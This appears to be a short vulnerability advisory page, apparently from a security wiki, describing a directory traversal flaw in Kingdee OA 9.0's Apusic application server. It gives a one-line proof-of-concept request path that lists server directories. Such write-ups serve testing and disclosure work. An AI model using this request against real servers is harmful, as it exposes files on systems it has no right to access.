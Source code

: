 # Kingdee OA Apusic Application Server (middleware) server_file directory traversal vulnerability

## Vulnerability Description

Kingdee OA Apusic application server (middleware) has a vulnerability to read any file. The attacker can obtain file information in the directory through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Kingdee OA 9.0 Apusic Application Server (middleware) </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629466520262-6fed551f-2c99-4966-82df-a2c5550a216d.png)

Verify POC

```bash
/admin/protected/selector/server_file/files?folder=/
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629466554121-8f3d039e-9243-42c1-bd3e-65cdbba62569.png)